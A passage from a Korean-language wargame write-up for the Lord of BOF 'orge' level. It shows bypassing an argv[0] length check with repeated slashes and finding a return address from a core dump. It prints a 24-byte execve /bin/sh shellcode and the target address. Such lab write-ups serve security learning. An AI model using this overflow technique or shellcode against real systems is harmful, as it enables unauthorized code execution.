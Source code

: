 ```c
    memset(buffer, 0, 40);
}
```



------

### 0x01. Analysis

```c
// here is changed!
if(strlen(argv[0]) != 77){
    printf("argv[0] error\n");
    exit(0);
}
```

argv[0]의 길이가 77이여야 한는 코드가 추가되었다.

argv[0]는 파일실행경로값이 들어가게 된다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/07.orge/image-20180829172758642.png" width="600px">

shell에는 다음과 같은 기능(?)이 있다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/07.orge/image-20180829172938587.png" width="600px">

경로명에 '/'를 여러개 넣어도 1개로 인식하여 파일이 실행된다. 하지만 argv[0]의 길이에는 포함이 된다.

이를 이용하여 길이를 77바이트로 만들면 될것 같다.

나머지 문제 풀이법은 darkelf와 같다.

------

### 0x02. Exploit

core 덤프를 떨궈 쉘코가 들어갈 주소를 구하자.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/07.orge/image-20180829173302690.png" width="800px">



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/07.orge/image-20180829173436809.png" width="650px">



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

이제 쉘코드를 넣고 RET주소에 0xbffffb64 를 넣으면 끄읏~



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/07.orge/image-20180829173636979.png" width="800px">
